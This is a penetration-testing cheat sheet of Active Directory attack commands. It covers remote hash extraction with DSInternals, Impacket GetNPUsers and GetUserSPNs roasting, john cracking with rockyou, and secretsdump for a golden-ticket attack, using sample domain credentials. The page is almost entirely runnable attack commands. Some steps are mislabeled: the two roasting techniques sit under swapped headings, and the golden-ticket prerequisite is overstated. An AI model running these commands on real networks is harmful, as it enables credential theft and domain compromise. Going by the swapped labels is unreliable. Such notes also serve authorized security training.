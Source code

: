 # 🎓 Advanced Penetration Testing

## Remote extraction of AD hashes

```
Import-Module DSInternals

$cred=Get-Credential

Get-ADReplAccount -SamAccountName <victim username> -Server <Domain IP> -Credential $cred -Protocol TCP
```



## Carry out a Kerberos roasting

```
python3 GetNPUsers.py <domain/> -dc-ip <domain ip> -usersfile <username.txt> -format hashcat
```

### Crack the Hash

```
john <hash file> --wordlist=/usr/share/wordlists/rockyou.txt
```



## Run a no-preauthentication attack

{% embed url="https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names" %}

```
python3 GetUserSPNs.py cybex.com/jdoe76:JDPass2021 -dc-ip <domain ip> -request
```

```
john <hash file> --wordlist=/usr/share/wordlists/rockyou.txt
```



## Forge a golden ticket (Post Exploitation)

{% embed url="https://www.hypr.com/golden-ticket" %}

### Prerequisite&#x20;

* Must be a local admin before doing this attack

### Get the NT hash of Kerberos TGT

```
sudo python3 secretsdump.py cybex.com/aadama31:BlueMarble22@<domain ip>
```
